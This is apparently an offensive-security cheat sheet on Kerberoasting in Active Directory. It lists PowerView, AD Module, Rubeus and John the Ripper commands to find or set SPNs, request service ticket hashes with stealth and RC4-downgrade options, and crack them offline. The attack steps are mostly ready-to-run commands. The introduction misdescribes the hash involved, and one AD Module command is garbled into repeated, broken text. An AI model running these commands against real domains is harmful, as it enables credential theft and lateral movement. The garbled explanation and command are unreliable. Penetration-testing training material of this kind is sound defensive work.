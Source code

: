 # Kerberoast

In a Kerberoast attack, the attacker requests a Kerberos session ticket (TGS) to retrieve the service account's NTLM hash, which is partially encrypted with the service account's hash.\
This hash is then cracked offline to extract the service account's password.\\

## SPNs

### Find SPNs

{% tabs %}
{% tab title="PowerView" %}
```powershell
Get-DomainUser -SPN
```
{% endtab %}

{% tab title="AD Module" %}
```powershell
Get-ADUser -Filter {Servicer -Filter {ServicePrincipalName -ne "$null"} - Properties ServicePrincipalNameGet-ADUser -Filter {ServicePrincipalName -ne "$null"} - Properties ServicePrincipalNameGet-ADUser -Filter {ServicePrincipalName -ne "$null"} - Properties ServicePrincipalName
```
{% endtab %}
{% endtabs %}

## Set SPNs

With enough rights (GenericAll/GenericWrite), a target user's SPN can be set but must be unique in the forest.

{% tabs %}
{% tab title="PowerView" %}
```powershell
# Find Permissions - for example RDPUsers group
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}

# Set SPN
Set-DomainObject -Identity support1user -Set @{serviceprincipalname=‘dcorp/whatever1'}

```
{% endtab %}

{% tab title="AD Module" %}
```
Set-ADUser -Identity support1user -ServicePrincipalNames @{Add='dcorp/whatever'}
```
{% endtab %}
{% endtabs %}

## TGS

```powershell
# try to downgrade to RC4-HMAC and get hashes
Rubeus.exe kerberoast 

# to avoid detections look for Kerberoastable accounts that only support RC4_HMAC
Rubeus.exe kerberoast /rc4opsec

# Specific SPN - more stealth
Rubeus.exe kerberoast /user:svcadmin  /rc4opsec

# usefull flags
/outfile:hashes.txt # output the hashes into file
/simple # hashes are output in the console one per line
/nowrap # results will not be line wrapped
/stats # will output statistics about kerberoastable users found
```

## Crack

```powershell
john.exe --wordlist=C:\AD\Tools\kerberoast\10kworst-pass.txt C:\AD\Tools\hashes.txt
```

